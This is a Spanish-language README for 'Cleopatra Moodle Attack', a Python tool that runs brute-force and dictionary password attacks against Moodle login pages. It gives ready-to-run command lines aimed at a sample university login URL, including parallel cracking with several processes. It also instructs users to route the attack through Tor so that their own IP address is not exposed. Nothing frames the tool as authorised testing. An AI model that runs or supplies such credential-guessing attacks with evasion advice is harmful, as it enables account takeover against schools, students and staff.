 # Cleopatra Moodle Attack

![enter image description here](https://i.imgur.com/MlDQz9I.png)
<br>

<p align="left">
<img src="https://img.shields.io/badge/Creado%20por-RamPanic-green">
<img src="https://img.shields.io/badge/Hecho en%20-Python3-red">
    <a href="https://github.com/RamPanic?tab=repositories"><img src="https://img.shields.io/badge/Ver%20m%C3%A1s-repositorios-yellow"></a>
</p>

Cleopatra Moodle Attack (CMA) es una herramienta que le permite lanzar ataques de fuerza bruta o de diccionario en los login de sitios web basados en la plataforma Moodle.

## Instalar requerimientos

```bash
pip3 install -r requirements.txt
```

## Instalar servicio Tor y lanzar ataque

No sería discreto utilizar nuestra dirección de IP para realizar el ataque, por ende hay que cambiarla, para esto utilizaremos el servicio Tor.

### Sistemas Linux

#### Debian

```bash
sudo apt install -y tor
```
#### Arch

```bash
sudo pacman -S tor
```

### Lanzar con bandera

```bash
python3 cleopatra.py --user scorpion --url https://example.edu.ar/login/index.php -t dictionary --successful-pattern "User details" -w wordlist.lst --tor-proxy
```

## Ataque en paralelo

Con CMA podremos utilizar la potencia de la CPU para obtener la contraseña más rápido.

```bash
python3 cleopatra.py --user scorpion --url https://example.edu.ar/login/index.php -t dictionary --successful-pattern "User details" -w wordlist.lst --processes 4
```

*Advertencia*: utilice esta bandera bajo su propio riesgo, su sistema podría colapsar por un mal uso.

## Ejemplo de ataque por diccionario

```bash
python3 cleopatra.py --user scorpion --url https://example.edu.ar/login/index.php -t dictionary --successful-pattern "User details" -w wordlist.lst
```

## Muestras

![cleopatra-help](https://i.imgur.com/qHkOEu8.png)
![cleopatra](https://i.imgur.com/4DNmzTs.png)

## Mensajes finales

Sigue en desarrollo de pequeñas cosas :P
